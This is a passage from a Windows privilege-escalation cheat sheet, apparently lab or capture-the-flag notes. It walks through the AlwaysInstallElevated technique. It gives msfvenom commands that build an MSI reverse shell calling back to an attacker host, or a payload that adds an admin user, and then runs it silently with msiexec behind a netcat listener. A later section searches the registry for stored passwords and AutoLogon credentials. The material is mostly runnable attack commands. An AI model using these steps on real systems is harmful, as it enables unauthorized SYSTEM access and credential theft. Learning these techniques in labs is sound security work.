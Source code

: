 Start a listener on the attacker machine and wait for an administrator to log in to spawn a SYSTEM shell.
```bash
nc -lvnp 53
```

### AlwaysInstallElevated
This is a policy that allows users to install Microsoft Windows Installer Package Files (MSI) with elevated system permissions.

Query the Registry for the following two Registery keys and make sure they are both set to `1 (0x1)`.
```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

On the attacker machine, generate an msfvenom reverse shell or adduser payload.
```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
msfvenom -p windows/adduser USER=admin PASS=password -f msi -o reverse.msi
```

Transfer the payload to the Windows host.
```powershell
copy \\10.13.9.71\thm\reverse.msi C:\PrivEsc\reverse.msi
```

Start a listener on the attacker machine and run the installer to spawn a SYSTEM shell.
```powershell
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi

/quiet: bypass UAC
/qn: specifies not to use a GUI
/i: perform a regular installation of the referenced package
```

## Passwords

### Registry
Many programs store configuration options in the Windows Registry, and sometimes Windows itself stores passwords in the Registry.

Search the Registry for keys and values that contain the word `password`.
```powershell
winPEASany.exe quiet filesinfo userinfo

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

Query the following Registry key to find AutoLogon credentials.
```powershell
HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon
```
